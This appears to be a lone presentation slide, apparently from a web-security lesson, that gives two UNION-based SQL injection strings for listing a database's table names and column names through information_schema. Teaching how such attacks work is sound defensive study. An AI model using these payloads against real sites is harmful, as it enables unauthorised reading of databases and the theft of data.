

# Schema info
Table names?
‘ UNION ALL SELECT table_name,1 from information_schema.tables--
Column names?
‘ UNION ALL SELECT column_name,1 from information_schema.columns where table_schema=database()--
This is column names for all tables at once